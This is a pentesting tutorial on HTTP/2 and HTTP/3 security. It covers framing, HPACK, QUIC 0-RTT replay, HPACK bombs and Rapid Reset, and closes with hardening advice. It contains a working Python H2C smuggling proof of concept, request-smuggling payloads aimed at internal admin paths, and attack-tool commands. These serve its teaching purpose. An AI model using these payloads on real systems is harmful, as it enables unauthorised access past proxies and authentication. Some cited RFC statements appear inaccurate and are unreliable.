

# ⚡ HTTP/2 & HTTP/3 — Modern Protocol Security

> **Module:** Web Pentesting → HTTP Protocol  
> **Difficulty:** Intermediate → Expert  
> **Tags:** `#http2` `#http3` `#quic` `#h2c-smuggling` `#hpack` `#request-smuggling` `#0rtt`

---

## 🧠 Why HTTP/2 and HTTP/3 Matter for Security

HTTP/2 (2015) and HTTP/3 (2022) fundamentally change the web's transport layer. For pentesters:
- New attack surfaces: H2C smuggling, HTTP/2 request smuggling, HPACK bomb
- Performance-based security trade-offs (0-RTT replay in HTTP/3)
- Different parsing behavior between versions enables desync attacks
- Many servers speak HTTP/2 externally but downgrade to HTTP/1.1 internally → smuggling opportunity

---

## 🏗️ HTTP/2 Deep Dive

### Binary Framing Layer

HTTP/1.1 is plain text. HTTP/2 introduces a **binary framing layer** — all communication is broken into small binary frames:

```
HTTP/1.1 (Text):                    HTTP/2 (Binary):
GET /page HTTP/1.1\r\n              ┌────────────────────────────┐
Host: example.com\r\n               │ Frame Length (24 bits)     │
Accept: text/html\r\n               │ Frame Type (8 bits)        │
\r\n                                │ Flags (8 bits)             │
                                    │ Stream ID (31 bits)        │
                                    │ Payload                    │
                                    └────────────────────────────┘
```

### HTTP/2 Frame Types:

| Type          | Value | Purpose                                          |
|---------------|-------|--------------------------------------------------|
| DATA          | 0x0   | Request/response body                            |
| HEADERS       | 0x1   | Request/response headers (HPACK compressed)      |
| PRIORITY      | 0x2   | Stream priority (deprecated in RFC 9113)         |
| RST_STREAM    | 0x3   | Abruptly terminate a stream                      |
| SETTINGS      | 0x4   | Connection configuration                         |
| PUSH_PROMISE  | 0x5   | Server push notification                         |
| PING          | 0x6   | Keep-alive + RTT measurement                     |
| GOAWAY        | 0x7   | Graceful connection shutdown                     |
| WINDOW_UPDATE | 0x8   | Flow control                                     |
| CONTINUATION  | 0x9   | Continuation of HEADERS fragment                 |

---

### Streams and Multiplexing

HTTP/2's killer feature: multiple requests over ONE TCP connection simultaneously.



```
Streams:
- Client-initiated streams: odd IDs (1, 3, 5, 7...)
- Server-initiated streams (push): even IDs (2, 4, 6...)
- Stream 0: connection-level control (SETTINGS, PING, GOAWAY)

Stream States: idle → open → half-closed (local) → half-closed (remote) → closed
```

---

### HPACK — Header Compression

HTTP headers are repetitive (same `Host`, `User-Agent`, `Accept` sent every request). HPACK compresses them via:

1. **Static table:** 61 predefined header name-value pairs (e.g., `:method: GET` = index 2)
2. **Dynamic table:** Headers added during connection, referenced by index
3. **Huffman encoding:** Compress string values

```
Example HPACK compression:
First request:
  :method: GET        → index 2 (static table, 1 byte)
  :path: /            → index 4 (static table, 1 byte)
  :scheme: https      → index 7 (static table, 1 byte)
  :authority: example.com → 0x01 + "example.com" (literal, added to dynamic table)

Second request (same host):
  :method: GET        → index 2 (1 byte)
  :path: /about       → index 4 with literal value (shorter than full header)
  :scheme: https      → index 7 (1 byte)
  :authority: example.com → dynamic table index (1 byte!) ← Already compressed
```

**CRIME attack connection:** Compression + secret in same compressed context = oracle for secrets. CRIME (CVE-2012-4929) exploited TLS compression + HTTPS cookies. HPACK compresses request headers within a connection, but since cookies are no longer in compressed TLS, CRIME-style HPACK attacks are theoretical against same-compression-context secrets.

---

### Server Push

Server can proactively push resources the client hasn't requested yet:

```
Traditional HTTP:
1. Client: GET /page.html
2. Server: (sends HTML)
3. Client parses HTML, sees <link rel="stylesheet" href="/style.css">
4. Client: GET /style.css  ← Extra round trip!

HTTP/2 Server Push:
1. Client: GET /page.html
2. Server: PUSH_PROMISE for /style.css (starts sending before client asks)
3. Server: DATA frame (page.html content)
4. Server: DATA frame (style.css content — already delivered!)
5. Client parses HTML → style.css already in cache ✅
```

**Server Push Security Abuse:**
```
Attacker scenario (if they control a server users connect to):
1. User connects to attacker-controlled HTTP/2 server (e.g., shared hosting, supply chain)
2. Server pushes malicious resources via PUSH_PROMISE:
   PUSH_PROMISE: /bootstrap.min.js (injected with malware)
   Pushed content: malicious JS payload
3. Client caches poisoned resource
4. Client then navigates to legitimate site → poisoned resource served from cache

Also: Cache probing via timing of PUSH responses can reveal what's in client's cache.
```

---

### HTTP/2 over TLS (h2) vs Cleartext (h2c)

| Mode | Connection | Negotiation     | Use Case                           |
|------|------------|-----------------|------------------------------------|
| h2   | TLS        | ALPN during TLS | All HTTPS HTTP/2 (standard)        |
| h2c  | Plaintext  | HTTP/1.1 Upgrade| Rare: internal microservices, k8s  |

```bash
# ALPN negotiation (h2 over TLS):
# TLS ClientHello includes: ALPN extension: h2, http/1.1
# TLS ServerHello responds: ALPN: h2 (selected)
# Connection is now HTTP/2

# h2c (cleartext upgrade):
GET / HTTP/1.1
Host: example.com
Upgrade: h2c
HTTP2-Settings: AAMAAABkAAQAAP__AAgAAAAA  ← Base64 encoded SETTINGS frame

# Server responds:
HTTP/1.1 101 Switching Protocols
Upgrade: h2c
# Connection is now HTTP/2 cleartext
```

---

## 🏗️ HTTP/3 Deep Dive

### QUIC Protocol

HTTP/3 runs over **QUIC** — a transport protocol built on **UDP** (not TCP):

```
HTTP/2 Stack:          HTTP/3 Stack:
┌─────────────┐        ┌─────────────┐
│   HTTP/2    │        │   HTTP/3    │
├─────────────┤        ├─────────────┤
│    TLS 1.2+ │        │   QUIC      │ ← TLS 1.3 built-in
├─────────────┤        ├─────────────┤
│    TCP      │        │    UDP      │
└─────────────┘        └─────────────┘

QUIC advantages over TCP+TLS:
1. 0-RTT connection resumption (vs 1-RTT for TLS 1.3, 2-RTT for older)
2. No head-of-line blocking (stream independence vs TCP stream)
3. Connection migration (phone switches WiFi→4G → connection persists via connection ID)
4. Built-in encryption (no unencrypted QUIC)
5. Faster handshake
```

### QUIC 0-RTT Connection:

```
Regular TLS 1.3 (1-RTT):
Client                    Server
  │──ClientHello──────────►│
  │◄──ServerHello─────────│  (1 RTT)
  │──Application Data─────►│  (Can start sending)

QUIC 0-RTT (using session ticket from previous connection):
Client                    Server
  │──0-RTT Data + ClientHello──►│  (Sends data immediately!)
  │◄──ServerHello + Response────│
```

---

## 💥 HTTP/2 Attack 1: H2C Smuggling

**Most impactful HTTP/2 attack for modern applications.**

**Concept:** When a front-end load balancer/proxy doesn't support H2C (HTTP/2 cleartext) but forwards the connection to a back-end that does, an attacker can upgrade to HTTP/2 and bypass the proxy entirely.

```
Normal flow:
Client → [Front-end Proxy] → [Back-end Server]
         HTTP/1.1             HTTP/1.1

H2C Smuggling:
Client → [Front-end Proxy] → [Back-end Server]
         HTTP/1.1 "please   Upgrades to HTTP/2 h2c!
         upgrade to h2c"    Now attacker controls 
                            raw HTTP/2 framing!
```

```http
# Step 1: Send HTTP Upgrade request to front-end
GET / HTTP/1.1
Host: example.com
Upgrade: h2c
HTTP2-Settings: AAMAAABkAAQAAP__AAgAAAAA
Connection: Upgrade, HTTP2-Settings

# If front-end forwards this to back-end:
# Back-end upgrades to HTTP/2
# Front-end now passes raw TCP data through (it doesn't understand HTTP/2)
# Attacker has direct HTTP/2 access to back-end, bypassing front-end controls!
```

**Real-World Impact:**
```bash
# H2C smuggling to access internal endpoints bypassing WAF/auth proxy
# Front-end: nginx reverse proxy (checks auth, applies WAF rules)
# Back-end: application server (trusts front-end)

# 1. Upgrade to h2c — front-end forwards without understanding
# 2. Send HTTP/2 request directly to backend:
#    - Access /internal/admin without going through front-end auth
#    - Front-end auth is completely bypassed!

# Tool: h2csmuggler
pip install h2csmuggler
h2csmuggler --scheme https -x /smuggled/internal/path https://example.com/
```

```python
#!/usr/bin/env python3
"""H2C Smuggling PoC"""
import socket
import ssl
import h2.connection
import h2.config
import h2.events

def h2c_smuggling_poc(target_host, target_port, smuggled_path):
    # Create regular TCP connection
    sock = socket.create_connection((target_host, target_port))
    
    # Send HTTP/1.1 upgrade request
    upgrade_request = (
        f"GET / HTTP/1.1\r\n"
        f"Host: {target_host}\r\n"
        f"Upgrade: h2c\r\n"
        f"HTTP2-Settings: AAMAAABkAAQAAP__AAgAAAAA\r\n"
        f"Connection: Upgrade, HTTP2-Settings\r\n"
        f"\r\n"
    ).encode()
    
    sock.sendall(upgrade_request)
    
    # Read 101 Switching Protocols response
    response = b""
    while b"\r\n\r\n" not in response:
        response += sock.recv(1024)
    
    if b"101 Switching Protocols" not in response:
        print("[-] Server did not upgrade to h2c")
        return
    
    print(f"[+] HTTP/2 cleartext upgrade successful!")
    
    # Now speak HTTP/2 directly to the backend
    config = h2.config.H2Configuration(client_side=True)
    conn = h2.connection.H2Connection(config=config)
    conn.initiate_connection()
    
    # Send HTTP/2 request to smuggled internal path
    conn.send_headers(
        stream_id=1,
        headers=[
            (':method', 'GET'),
            (':path', smuggled_path),
            (':scheme', 'http'),
            (':authority', 'internal-backend:8080'),  # Internal host!
            ('x-internal-token', 'bypass'),
        ]
    )
    
    data_to_send = conn.data_to_send(65535)
    sock.sendall(data_to_send)
    
    # Read response
    while True:
        data = sock.recv(65535)
        if not data:
            break
        events = conn.receive_data(data)
        for event in events:
            if isinstance(event, h2.events.DataReceived):
                print(f"[+] Smuggled response: {event.data.decode()[:500]}")
                return

h2c_smuggling_poc("proxy.example.com", 80, "/internal/admin/users")
```

---

## 💥 HTTP/2 Attack 2: HTTP/2 Request Smuggling

James Kettle (PortSwigger) discovered critical HTTP/2 request smuggling variants in 2021.

**Context:** Many servers accept HTTP/2 externally but translate to HTTP/1.1 internally (downgrade). The translation is where smuggling occurs.

### H2.CL — HTTP/2 with Content-Length Smuggling:

```
HTTP/2 → HTTP/1.1 Translation Flaw:

HTTP/2 request (binary):
:method: POST
:path: /
:authority: example.com
content-type: application/x-www-form-urlencoded
content-length: 0    ← Explicit Content-Length in HTTP/2 (unusual!)

Payload: GET /smuggled HTTP/1.1\r\nHost: example.com\r\n\r\n

Translation to HTTP/1.1 by proxy:
POST / HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 0     ← Front-end uses this (0 bytes body)
Transfer-Encoding: chunked  ← Back-end uses this!

0\r\n
\r\n
GET /smuggled HTTP/1.1\r\n  ← Smuggled! Back-end treats as separate request
Host: example.com\r\n
\r\n
```

### H2.TE — HTTP/2 with Transfer-Encoding:

```
HTTP/2 request with Transfer-Encoding header injected:
:method: POST
:path: /
transfer-encoding: chunked

Body:
0\r\n
\r\n
GET /admin HTTP/1.1\r\n
Host: internal.example.com\r\n
\r\n
```

### Burp Suite for HTTP/2 Smuggling:

```
1. Proxy → HTTP history → find HTTP/2 request
2. Send to Repeater
3. Repeater → in HTTP/2 mode, add pseudo-headers manually
4. Add content-length header that conflicts with actual body size
5. In Burp: Inspector → Request Attributes → HTTP/2

PoC Payload in Burp:
:method POST
:path /
:authority vulnerable.com
content-type application/x-www-form-urlencoded
content-length 0

Body (hidden in Burp's view):
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10

smuggled
```

```bash
# h2smuggle tool
pip install h2smuggle
h2smuggle scan --url https://example.com/ --wordlist endpoints.txt

# Turbo Intruder for HTTP/2 smuggling timing attacks
# Use Burp Suite's Turbo Intruder extension with HTTP/2 support
```

---

## 💥 HTTP/2 Attack 3: HPACK Bomb

Decompression bomb via HPACK — exploits large dynamic table.

```
Attack concept:
1. Attacker sends a request that adds many large headers to the HPACK dynamic table
2. Attacker then sends a tiny frame that references all those headers for decompression
3. Server decompresses a tiny frame into gigabytes of headers → OOM/crash!

Similar to: ZIP bomb, XML external entity bomb

Mitigation: HTTP/2 implementations limit dynamic table size (default 4KB)
CVE: Multiple implementations vulnerable before patches
```

```
HPACK Bomb structure:
┌──────────────────────────────────────────────┐
│ Setup frame: Add 1000 headers to dynamic table│
│ Each header: 100 bytes long                   │
│ Total: 100KB in dynamic table                 │
├──────────────────────────────────────────────┤
│ Attack frame: Reference all 1000 headers      │
│ Frame size: ~100 bytes (just indices)          │
│ Decompresses to: 100KB x N repetitions = OOM! │
└──────────────────────────────────────────────┘
```

---

## 💥 HTTP/3 Attack: 0-RTT Replay Attacks

**0-RTT allows sending data on the first packet**, but this data can be replayed by a MITM or network attacker.

```
0-RTT Replay Attack:
1. Victim initiates QUIC connection to bank.example.com
2. 0-RTT data: POST /transfer amount=1000&to=friend
3. Network attacker captures this QUIC packet
4. Attacker replays the QUIC 0-RTT packet
5. Server processes the transfer AGAIN!

Why this is dangerous:
- Any non-idempotent request in 0-RTT can be replayed
- POST, PUT, DELETE in 0-RTT = replay = double-spending, duplicate actions
```

**Safe vs Unsafe in 0-RTT:**
```
Safe (idempotent, OK in 0-RTT):
✅ GET /page.html
✅ GET /image.jpg
✅ GET /api/products (read-only)

UNSAFE (non-idempotent, NEVER in 0-RTT!):
❌ POST /api/transfer (money transfer)
❌ POST /api/orders (place order)  
❌ DELETE /api/posts/1 (delete content)
❌ POST /auth/login (authentication)
```

```
RFC 9114 (HTTP/3): "A server MUST NOT use 0-RTT for non-idempotent requests"
But application developers must enforce this themselves!
```

---

## 🔍 Detecting HTTP/2 and HTTP/3

### curl:

```bash
# Force HTTP/2
curl --http2 -v https://example.com 2>&1 | head -20
# Look for: "Using HTTP2, server supports multiplexing"
# Or: "< HTTP/2 200"

# Force HTTP/1.1 (compare)
curl --http1.1 -v https://example.com

# Check HTTP/3 support
curl --http3 -v https://example.com
# (requires curl built with HTTP/3 support)

# See ALPN negotiation
curl --verbose https://example.com 2>&1 | grep -i "ALPN\|HTTP"
# * ALPN: offers h2
# * ALPN: server accepted h2
# * Using HTTP2, server supports multiplexing
# < HTTP/2 200

# Force HTTP/2 cleartext (h2c)
curl --http2-prior-knowledge http://internal-service.example.com/

# nghttp2 for detailed HTTP/2 analysis
sudo apt install nghttp2-client
nghttp -v https://example.com
```

### Burp Suite HTTP/2:

```
1. Burp fully supports HTTP/2 (v2021.9+)
2. Proxy tab: HTTP history shows HTTP/2 requests labeled as h2
3. Inspector panel: shows HTTP/2 pseudo-headers (:method, :path, :scheme, :authority)
4. Repeater: toggle HTTP/1 ↔ HTTP/2 button
5. Scanner: automatically tests HTTP/2 specific vulnerabilities
```

### Network Level Detection:

```bash
# Wireshark — HTTP/2 filter
# http2 — show HTTP/2 frames
# http2.type == 0x1 — HEADERS frames only
# http2.streamid — filter by stream ID

# nmap service detection for HTTP/2
nmap -sV --script http-headers example.com -p 443

# TestSSL for ALPN/HTTP/2
testssl.sh --protocols https://example.com
# Look for: "ALPN  h2 http/1.1"
```

---

## 📊 HTTP/2 vs HTTP/1.1 Security Comparison

| Aspect                        | HTTP/1.1                | HTTP/2                          |
|-------------------------------|-------------------------|---------------------------------|
| Request smuggling             | CL.TE, TE.CL, TE.TE    | H2.CL, H2.TE + downgrade       |
| Header injection              | CRLF injection          | Header injection at frame level |
| Information disclosure        | Text headers readable   | Binary, but parseable           |
| DoS surface                   | Large headers           | HPACK bomb, RST flood (RAPID RESET) |
| Encryption                    | Optional                | Effectively required (ALPN h2)  |
| Compression attacks           | CRIME/BREACH via gzip   | HPACK related (theoretical)     |

---

## 🔴 HTTP/2 Rapid Reset — CVE-2023-44487

The highest-ever volumetric DDoS attack exploited an HTTP/2 flaw:

```
HTTP/2 Rapid Reset (CVE-2023-44487):
1. Attacker opens many HTTP/2 streams (requests)
2. Immediately cancels each with RST_STREAM frame
3. Server allocates resources for each stream before seeing RST
4. Attacker sends millions of stream open+cancel cycles per second
5. Server overwhelmed trying to process and cancel streams

Real attack: 398 million requests/second (Oct 2023)
Affected: NGINX, Apache, Go HTTP/2, Netty, AWS, Google Cloud, Cloudflare

Mitigations:
- Limit concurrent streams
- Implement RST rate limiting  
- Update HTTP/2 library
- NGINX: limit_req, keepalive_requests limits
```

---

## ⚙️ HTTP/2 Server Configuration

```nginx
# Nginx — Enable HTTP/2 properly
server {
    listen 443 ssl http2;  # Enable HTTP/2
    
    ssl_certificate /etc/ssl/cert.pem;
    ssl_certificate_key /etc/ssl/key.pem;
    
    # Prevent h2c smuggling — disable HTTP upgrade
    # (Nginx doesn't support h2c anyway, but be explicit)
    
    # Mitigate RAPID RESET (CVE-2023-44487)
    http2_max_concurrent_streams 128;  # Limit concurrent streams
    keepalive_requests 1000;
    
    # HPACK settings
    http2_recv_buffer_size 256k;
    
    # Protect against large header attacks
    large_client_header_buffers 4 8k;
    
    location / {
        proxy_pass http://backend;
        proxy_http_version 1.1;       # Use HTTP/1.1 to backend (common)
        proxy_set_header Connection "";
    }
}
```

```apache
# Apache — HTTP/2 configuration
LoadModule http2_module modules/mod_http2.so

<VirtualHost *:443>
    Protocols h2 http/1.1
    
    # HTTP/2 settings
    H2Push on
    H2PushResource /style.css
    H2SessionExtraFiles 5
    H2MaxSessionStreams 100    # Limit concurrent streams
    
    SSLEngine on
</VirtualHost>
```

---

## 🛡️ HTTP/2 & HTTP/3 Security Checklist

```
HTTP/2 Security:
□ Updated HTTP/2 library (RAPID RESET patch — CVE-2023-44487)
□ Concurrent stream limits configured
□ H2C disabled if not needed (or front-end doesn't trust h2c upgrades)
□ Backend upgraded to HTTP/2 OR proper translation with smuggling mitigations
□ HPACK dynamic table size limited
□ Server Push only for trusted, static resources
□ HTTP/2 error handling tested (invalid frames, malformed headers)

HTTP/3 Security:
□ 0-RTT disabled for non-idempotent endpoints
□ Or: application-level replay prevention (nonce, idempotency key)
□ QUIC implementation updated
□ UDP DDoS amplification mitigated at network level
□ Connection migration validated (don't allow migration to attacker-controlled IP)

General:
□ ALPN configured correctly
□ TLS 1.3 for HTTP/2 (HTTP/2 over TLS 1.1/1.2 deprecated in RFC 9113)
□ Monitoring for unusual stream RST rates (RAPID RESET detection)
```

---

## 📚 Key Research & Resources

- **James Kettle** - "HTTP/2: The Sequel is Always Worse" (PortSwigger Research, 2021) — HTTP/2 smuggling
- **CVE-2023-44487** — RAPID RESET HTTP/2 DDoS (Oct 2023)
- **RFC 9113** — HTTP/2 specification (2022 update)
- **RFC 9114** — HTTP/3 specification
- **RFC 9000** — QUIC transport protocol
- [nghttp2.org](https://nghttp2.org) — HTTP/2 implementation and tools
- PortSwigger Web Academy — HTTP Request Smuggling lab series
- [quic.xargs.org](https://quic.xargs.org) — Interactive QUIC explanation

---

*Last updated: 2024 | HackerNotes Web Pentesting Series*
